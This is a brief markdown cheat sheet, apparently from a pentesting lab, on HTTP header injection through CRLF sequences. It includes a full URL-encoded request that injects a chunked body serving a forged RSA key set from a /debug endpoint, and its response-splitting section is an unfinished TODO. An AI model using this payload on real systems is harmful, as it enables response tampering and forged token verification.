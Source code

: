 # HTTP Header Injection

Inject additional headers and content by splitting the HTTP response using `%0d%0a` for new lines.

Your response should have:

* A single blank line between the headers and the body content
* The correct `Content-Length`

## Replace HTTP Response content

Inject a `Transfer-Encoding: chunked` header.

Inject one or more data chunks by transmitting line consisting of the chunk length __IN HEXADEXIMAL__ followed by a newline `%0d%0a` followed by the actual chunk bytes and another newline `%0d%0a`.  

```
5%0d%0aHello%0d%0a
```

Inject a sequence indicating the end of the chunked encoding by sending a zero-length chunk with no body, i.e. `0%0d%0a%0d%0a`

A full injection would for example look like:
```
GET /debug?value=%0d%0aTransfer-Encoding:+chunked%0d%0a%0d%0a104%0d%0a%7b%22%6b%65%79%73%22%3a%5b%7b%22%6b%74%79%22%3a%22%52%53%41%22%2c%22%61%6c%67%22%3a%22%52%53%32%35%36%22%2c%22%6b%69%64%22%3a%22%70%65%6e%74%65%73%74%65%72%6c%61%62%22%2c%22%75%73%65%22%3a%22%73%69%67%22%2c%22%6e%22%3a%22%77%38%63%41%79%59%47%54%68%35%75%49%79%75%32%52%48%67%4a%6d%62%33%4e%4f%76%30%6a%78%7a%50%62%48%43%4f%32%36%39%76%50%56%35%2d%75%47%33%65%4b%58%64%33%71%4e%4c%45%55%63%41%4d%5a%7a%4f%57%34%53%6b%34%37%49%49%52%39%54%73%55%31%77%63%74%62%46%4b%66%37%56%75%6a%41%52%66%4d%4a%71%4d%76%31%62%74%39%64%6d%56%33%72%54%44%4e%53%64%34%2d%49%77%52%5f%54%4f%4b%7a%56%46%2d%38%71%69%53%6d%6b%6d%67%50%54%2d%34%52%47%62%4a%45%53%4a%50%4c%46%42%32%61%54%55%43%6e%78%32%35%67%54%30%74%73%7a%33%5f%74%59%62%48%65%2d%48%5f%34%45%22%2c%22%65%22%3a%22%41%51%41%42%22%7d%5d%7d%0d%0a0%0d%0a HTTP/1.1
```

## HTTP Response Splitting

Send back two HTTP Responses for a single HTTP Request being made.

TODO